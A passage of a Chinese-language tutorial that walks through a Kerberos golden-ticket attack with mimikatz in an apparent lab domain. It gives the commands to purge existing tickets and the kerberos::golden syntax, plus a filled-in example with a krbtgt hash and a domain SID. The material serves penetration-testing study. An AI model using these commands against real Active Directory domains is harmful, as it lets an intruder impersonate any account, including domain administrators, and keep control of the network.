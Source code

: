 管理员窗口操作

#### 1、清除原有票据

因为在⽣成票据时需要将原有的票据清空，所以⼀旦票据⽣成失败，主机也将⽆法继续访问域内信息了 (脱域)。

使⽤ `kerberos::purge` 清空票据后，就可以使⽤ kerberos::golden ⽣成票据了。

```plain
mimikatz.exe
privilege::debug
kerberos::purge     清空票据
```

[![](assets/1706958938-5f902453e1862345ab42be54897e46cb.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172314746-1349902051.png)

#### 2、⽣成票据

```plain
kerberos::golden /user:<要伪造的⽤户名> /domain:<完整域名> /krbtgt:<krbtgt ⽤户的 hash> /sid:<域 sid> /ticket:<⽣成的⽂件名.kirbr>

kerberos::golden /user:Administrator /domain:mao.com /krbtgt:e798fdc7ba810c372ef7bffcdc8f2d13 /sid:S-1-5-21-86377703-696496247-1862912240 /ticket:carmi.kirbr
```

[![](assets/1706958938-56391e06a7b378aeaf5e5bb40689b56d.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172316515-119343848.png)
